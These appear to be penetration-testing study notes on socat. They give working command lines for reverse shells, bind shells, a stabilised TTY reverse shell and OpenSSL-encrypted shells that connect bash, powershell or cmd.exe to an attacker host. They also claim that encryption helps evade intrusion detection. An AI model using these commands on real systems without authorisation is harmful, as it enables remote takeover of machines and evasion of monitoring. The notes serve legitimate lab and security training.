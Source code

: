 # Socat

### Introduction

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

The easiest way to think about socat is as a connector between two points, it can be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points

***

### Reverse Shells

Here's the syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>.`

On Windows we would use this command to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. This is the equivalent command for a Linux Target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

***

### Bind Shells

On a Linux target we would use the following command: `socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener. `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

***

### Fully Stable Linux tty Reverse Shell

This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts.

1. As usual, we're connecting two points together. In this case those points are a listening port, and a file.
2. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z, stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true), which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

Let's break it down.

* The first part is easy -- we're linking up with the listener running on our own machine.
* The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:
  * pty, allocates a pseudoterminal on the target -- part of the stabilisation process
  * stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
  * sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
  * setsid, creates the process in a new session
  * sane, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

***

### Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key, and are often able to **bypass an IDS** as a result.

1. We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
   * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
   * This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
2. We then need to merge the two created files into a single `.pem` file:
   * `cat shell.key shell.crt > shell.pem`

#### Reverse Shell

1. Now, when we set up our reverse shell listener, we use:
   * `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
   * This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
2. To connect back, we would use:
   * `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

#### Bind Shell

1. . For Bind Shell, On Target:
   * `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
2. Attacker:
   * `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

**Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required**

This technique will also work with the special, Linux-only TTY shell covered before.

1. Listener

```bash
socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

2. Connecter

```bash
socat OPENSSL:<ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

***
